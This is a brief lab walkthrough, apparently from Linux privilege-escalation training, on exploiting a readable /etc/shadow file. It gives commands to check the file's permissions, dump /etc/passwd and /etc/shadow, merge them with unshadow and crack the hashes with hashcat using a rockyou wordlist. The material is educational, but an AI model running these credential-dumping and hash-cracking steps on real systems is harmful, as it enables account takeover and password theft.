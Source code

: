 Detection

  

Linux VM

  

1. In command prompt type:

**ls -la /etc/shadow**

2. Note the file permissions

  

Exploitation

  

Linux VM

  

1. In command prompt type: **cat /etc/passwd**

2. Save the output to a file on your attacker machine

3. In command prompt type: **cat /etc/shadow**

4. Save the output to a file on your attacker machine

  

Attacker VM  

  

1. In command prompt type: **unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt**

  

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

  

**hashcat -m 1800 unshadowed.txt rockyou.txt -O**